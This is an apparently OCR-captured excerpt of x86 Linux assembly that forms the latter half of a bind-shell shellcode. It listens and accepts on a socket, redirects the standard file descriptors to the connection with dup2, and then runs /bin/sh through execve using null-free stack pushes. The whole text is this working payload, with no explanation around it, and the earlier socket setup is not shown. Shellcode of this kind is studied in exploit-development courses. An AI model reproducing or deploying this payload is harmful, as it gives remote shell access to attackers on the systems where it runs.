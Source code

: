 ```assembly
	xor eax, eax	; clear register
	push eax	; zero into the memory

	mov al, 0x66	; socketcall 102
	mov bl, 0x4	; sys_listen

	push edx	; sockfd
	mov ecx, esp	; pointer to arguments
	int 0x80	; make the sys call

	; accept
	; socketcall(int call, unsigned long *args)
	; accept(int sockfd, struct sockaddr *addr, socklen_t *addrlen)
	xor eax, eax	; clear eax
	push eax	; push 0 to stack
	push eax	; push 0 to stack
	push edx	; sockfd in memory - first argument

	mov al, 0x66	; socketcall 102
	mov bl, 0x5	; sys_accept

	mov ecx, esp	; pointer to arguments
	int 0x80	; make sys call

	;dup2
	; dup2(int oldfd, int newfd)
	mov ebx, eax	; sockfd to ebx
	xor ecx, ecx	; clear ecx
	mov cl, 0x2	; initialize counter

	loop:
		mov al, 0x3f	; dup2 sys call
		int 0x80	; make sys call
		dec cl		; decrement counter
		jns loop	; make the loop

	; execve
	; execve(const char *filename, char *const argv[], char *const envp[])
	xor ecx, ecx	; clear ecx
	mul ecx		; clear eax, edx

	push eax	; null - string termination
	push 0x68732f6e	; n/sh
	push 0x69622f2f	; //bi

	mov ebx, esp	; pointer to //bin/sh\0

	mov al, 0xb	; execve sys call
	int 0x80	; make sys call
```
